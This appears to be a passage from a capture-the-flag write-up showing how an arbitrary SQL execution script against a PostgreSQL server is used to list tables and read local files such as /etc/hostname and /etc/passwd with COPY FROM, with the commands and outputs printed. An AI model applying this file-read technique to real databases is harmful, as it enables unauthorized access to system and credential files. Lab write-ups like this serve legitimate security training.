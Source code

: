 ```python
```

With the Python script, I successfully managed to extract information from the `information_schema` tables.

```bash
> python raw_sql_exec.py "select table_name from information_schema.tables;"
Executed Query: select table_name from information_schema.tables;
{
    "values": [
        [
            "moons",
            "pg_statistic",
            "pg_type",
            "pg_foreign_table",
            "pg_authid",
            "pg_shadow",
...
...
...
```

With the capability to execute SQL queries, I can access file contents by following this approach:
1. Create a new table with a schema set to TEXT.
2. Copy the contents of a file into this table.
3. Finally, I can dump the table, thereby allowing me to read the contents of files, such as `/etc/hostname`.

The first two won't return any data, so the script simply returns an Exception.

```bash
❯ python raw_sql_exec.py "create table file_read(file TEXT);"
Exception raised: list index out of range
❯ python raw_sql_exec.py "COPY file_read FROM '/etc/hostname';"
Exception raised: list index out of range
❯ python raw_sql_exec.py "select * from file_read;"
Executed Query: select * from file_read;
{
    "values": [
        [
            "jupiter"
        ]
    ]
}
```

By dumping `/etc/passwd`, identified three users with login shells → `postgres`, `juno` and `jovian`

```bash
❯ python raw_sql_exec.py "COPY file_read FROM '/etc/passwd';"
Exception raised: list index out of range
❯ python raw_sql_exec.py "select * from file_read;"
Executed Query: select * from file_read;
{
    "values": [
        [
            "jupiter",
            "root:x:0:0:root:/root:/bin/bash",
...snip...
            "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin",
...snip...
            "postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash",
            "grafana:x:115:121::/usr/share/grafana:/bin/false",
            "jovian:x:1001:1002:,,,:/home/jovian:/bin/bash",
            "_laurel:x:998:998::/var/log/laurel:/bin/false"
        ]
```